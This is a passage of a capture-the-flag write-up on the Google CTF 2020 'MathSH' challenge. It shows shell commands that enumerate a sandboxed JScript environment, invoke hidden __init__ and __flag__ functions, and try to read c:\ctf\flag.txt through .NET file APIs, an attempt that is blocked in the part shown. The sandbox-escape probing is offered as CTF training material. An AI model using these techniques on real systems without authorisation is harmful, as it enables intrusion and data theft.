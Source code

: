 ```
MathSH> __init__()
Couldn't find method __init__
MathSH> help(__global__)
Need to specify a type name such as __global__.System.String.
MathSH> help(__global__.System.String)
<Functions>
System.String Join(System.String, System.String[])
System.String Join(System.String, System.Object[])
System.String Join[T](System.String, System.Collections.Generic.IEnumerable`1[T])
System.String Join(System.String, System.Collections.Generic.IEnumerable`1[System.String])
System.String Join(System.String, System.String[], Int32, Int32)
Boolean Equals(System.Object)
....
```
We need to understand what the `__flag__` function does, why we can't call `__init__`. But we can call `help()` on every object, which is going to be helpful. The next breakthrough for me was just a guess - I decided to try different keywords and discovered that the shell has these as well:
```
MathSH> array(this, self, null, true, false)
Unable to cast object of type 'JScriptRunner.JScriptGlobal' to type 'System.IConvertible'.
```
The use of an array is just so I can show all of the keywords in one line. If one of them wouldn't have existed, I would get an error - `cannot find property`. **this** and **self** are the same. Fortunately, we can call `help()` on them and see why we failed to call `__init___`:
```
MathSH> help(this)
<Functions>
System.String __flag__()
Void __init__(Boolean)
<Properties>
System.Type Math
```
So now we can call `__init__(true)` and see what happens when we try to get the flag:
```
MathSH> __init__(true)
MathSH> __flag__()
SlimlineJScript.EvaluationException: Can't open flag file.
   at JScriptRunner.JScriptGlobal.WriteException(Exception ex)
   at JScriptRunner.JSShell.Run()
   at JScriptRunner.EntryPoint.Run(String flag_path, IShell shell)
   at GoogleCTF2020.Program.RunShell(IShell shell)
Additional Arguments:
0 = c:\ctf\flag.txt
```
Nice! So now we know the path of the flag, the names of namespaces and objects involved and how to show exceptions. The exception that was thrown is an internal exception, so what if we tried to use the built-in objects and functions to read the flag directly? Remember that we didn't get an error for accessing `__global__.System.String`? Let's try to call `__global__.System.IO.File.ReadAllText()`:
```
MathSH> __global__.System.IO.File.ReadAllText("c:\\ctf\\flag.txt")
System.Security.SecurityException: Request for the permission of type 'System.Security.Permissions.FileIOPermission, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089' failed.
   at JScriptRunner.JScriptGlobal.WriteException(Exception ex)
   at JScriptRunner.JSShell.Run()
   at JScriptRunner.EntryPoint.Run(String flag_path, IShell shell)
   at GoogleCTF2020.Program.RunShell(IShell shell)
The action that failed was:
Demand
The type of the first permission that failed was:
System.Security.Permissions.FileIOPermission
The first permission that failed was:
```
